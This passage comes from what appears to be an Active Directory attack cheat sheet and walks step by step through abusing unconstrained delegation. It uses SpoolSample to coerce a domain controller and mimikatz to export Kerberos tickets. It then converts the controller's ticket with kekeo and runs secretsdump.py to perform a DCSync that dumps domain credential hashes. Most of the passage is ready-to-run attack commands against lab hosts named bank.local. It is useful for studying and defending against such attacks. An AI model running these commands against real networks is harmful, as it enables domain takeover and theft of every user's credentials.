 - While running Rubeus, we can run **SpoolSample.exe**

```bash
# Download & Compiled
https://github.com/leechristensen/SpoolSample.git

# Command
.\SpoolSample.exe DC01.bank.local VULN01.bank.local
```

![](https://github.com/H0j3n/EzpzActiveDirectory/blob/main/src/Pasted%20image%2020210811231133.png)

![](https://github.com/H0j3n/EzpzActiveDirectory/blob/main/src/Pasted%20image%2020210811231146.png)

**2. Using secretdumps to perform dcsync**

- Open mimikatz then run 

```bash
sekurlsa::tickets /export
```

![](https://github.com/H0j3n/EzpzActiveDirectory/blob/main/src/Pasted%20image%2020210811232703.png)

- We can see that there is DC **(kirbi file)**

![](https://github.com/H0j3n/EzpzActiveDirectory/blob/main/src/Pasted%20image%2020210811232724.png)

- Download **kekeo** and use this command. We will convert the kirbi file to a ccache file.

```bash
# Download
https://github.com/gentilkiwi/kekeo

# Command
misc::convert ccache dc01.kirbi
```

![](https://github.com/H0j3n/EzpzActiveDirectory/blob/main/src/Pasted%20image%2020210811233303.png)

- Transfer the ccache file to attacker machine. Then use this commands to export the ccache file.

```bash
# Command
export KRB5CCNAME=dc01.ccaches
```

- Use secretsdump to perform dcsync.

```bash
secretsdump.py -k DC01.bank.local -just-dc
```

![](https://github.com/H0j3n/EzpzActiveDirectory/blob/main/src/Pasted%20image%2020210811235053.png)

- Take notes to add **"DC01.bank.local"** and **"bank.local"** in /etc/hosts

![](https://github.com/H0j3n/EzpzActiveDirectory/blob/main/src/Pasted%20image%2020210811235232.png)
